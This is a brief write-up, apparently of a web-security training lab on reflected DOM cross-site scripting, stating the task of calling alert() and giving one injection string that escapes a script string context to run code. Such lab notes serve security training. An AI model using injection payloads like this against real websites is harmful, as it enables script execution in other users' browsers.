 # Lab: Reflected DOM XSS

Task : create an injection that calls the alert() function.
analysis: aaaaa\"};alert(1);//